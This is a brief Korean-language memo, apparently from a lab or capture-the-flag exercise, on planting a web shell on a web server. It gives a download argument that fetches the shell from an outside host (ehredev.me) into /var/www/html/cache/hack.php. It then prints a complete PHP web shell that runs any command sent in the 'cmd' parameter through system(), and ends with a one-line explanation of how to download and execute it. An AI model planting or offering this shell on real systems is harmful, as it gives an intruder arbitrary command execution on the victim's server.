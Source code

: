 # 익스플로잇 코드
`http://ehredev.me/web_shell/index.php -o /var/www/html/cache/hack.php`

# 웹쉘 코드
```php
<html>
    <body>
        <form method = "GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
            <input type = "text" name = "cmd" autofocus id = "cmd" size = 80>
            <input type = "submit" value = "Exploit">
        </form>
        <pre>
            <?php
                if(isset($_GET['cmd'])){
                    system($_GET['cmd']);
                }
            ?>
        </pre>
    </body>
</html>
```
웹쉘을 브라우저안에 심는 방법, curl이니까 -o를 이용해서 다운로드 받고, 그 경로로 가서 실행
